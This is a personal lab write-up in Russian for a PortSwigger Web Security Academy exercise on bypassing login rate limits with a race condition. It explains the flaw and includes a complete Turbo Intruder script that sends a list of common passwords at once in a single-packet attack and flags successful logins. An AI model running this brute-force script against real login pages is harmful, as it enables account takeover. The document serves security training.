

https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits

# Обход предельных частот через условия гонки
----

задание:
1) украсть пароль карлоса
2) попасть в админ панель и удалить юзера карлос
условия: будет ограничение на число запросов, 
обойти ограничение можно через race conditional

моя учетка wiener:peter

----

решил лабу

# гланая суть:

смысл лабы был в том чтобы грубо подобрать пароль от карлоса
но после неудачной 3-4 попытки - была блокировка и страницы входа
и самого аккаунта

но если через  burp отправить одновременные запросы 
то можно обойти это лограничение , но проблема в том, что тогда придется вручную подставлять пароли
поэтому написал несложный скрипт для турбоинтрудера
который сразу одним запросом отправляет много запросов 
(что по сути похоже на ддос уже)
и уязвимость подтвердилась




если отправить много запросов одновременно - тогда так получается, что сервер не успевает выполнить на своей стороне проверку того, какая по счету это попытка!
и позволяет обойти лимит на число неправильных попыток ввода пароля!
в реально так пароль конечно не подберешь наверно, так как придется делать отдельные пейлоады для каждого запуска запросов, за раз напрмиер по 20-30 запросов
+ это заметно должно быть , если там логи провяряются в реал тайме
+ но имеет место быть такой подход для скидок, получения каких-то токенов


# как найти уязвимость?
1) найти точки где это может быть выгодно
2) одновременной отправкой запросов определить - есть ли гонка данных, то есть нарушаются ли условия оригинальной логики работы приложения или нет


```python
import time
try:
    from urllib.parse import quote
except ImportError:
    from urllib import quote

def queueRequests(target, wordlists):

    # Движок для ОДНОПАКЕТНОЙ АТАКИ (HTTP/2) - точная синхронизация
    # Движок для последнего байта (HTTP/1.1) - если HTTP/2 недоступен
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,  # КРИТИЧНО: одно соединение
                           engine=Engine.BURP2,      # Для HTTP/2: однопакетная атака
                           # Если нужна поддержка HTTP/1.1, используйте:
                           # engine=Engine.THREADED
                           )

    # Список паролей для перебора
    passwords = [
    
        "123123",
        "abc123",
        "football",
        "monkey",
        "letmein",
        "shadow",
        "master",
        "666666",
        "qwertyuiop",
        "123321",
        "mustang",
        "123456",
        "password",
        "12345678",
        "qwerty",
        "123456789",
        "12345",
        "1234",
        "111111",
        "1234567",
        "dragon",
        "1234567890",
        "michael",
        "x654321",
        "superman",
        "1qaz2wsx",
        "baseball",
        "7777777",
        "121212",
        "000000"

    ]

    # 1. Создаем запросы для каждого пароля и помещаем их в ОДНУ группу (gate)
    for pwd in passwords:
        # Кодируем пароль для URL
        encoded_pwd = quote(pwd, safe='')
        # Заменяем маркер %s в исходном запросе на пароль
        attack_req = target.req.replace('%s', encoded_pwd)
        # Все запросы помещаем в группу 'race'
        engine.queue(attack_req, gate='race')

    # 2. ОТПРАВЛЯЕМ ВСЕ ЗАПРОСЫ ОДНОВРЕМЕННО
    engine.openGate('race')

def handleResponse(req, interesting):
    # Обработка ответов: ищем успешный вход или подсказки
    if req.status == 302:  # Редирект часто означает успешный вход
        req.label = "SUCCESS - Possible login"
        table.add(req)
    elif req.status == 200:
        # Анализируем текст ответа на признаки успеха
        response_text = req.response.lower()
        success_indicators = ['welcome', 'dashboard', 'logout', 'my account', 'success']
        if any(indicator in response_text for indicator in success_indicators):
            req.label = "SUCCESS - Found in response"
            table.add(req)
        # Также добавляем все ответы для анализа
        else:
            req.label = "Checked"
            table.add(req)
    elif req.status == 429 or "too many" in req.response.lower():
        req.label = "RATE LIMIT - Block detected"
        table.add(req)
```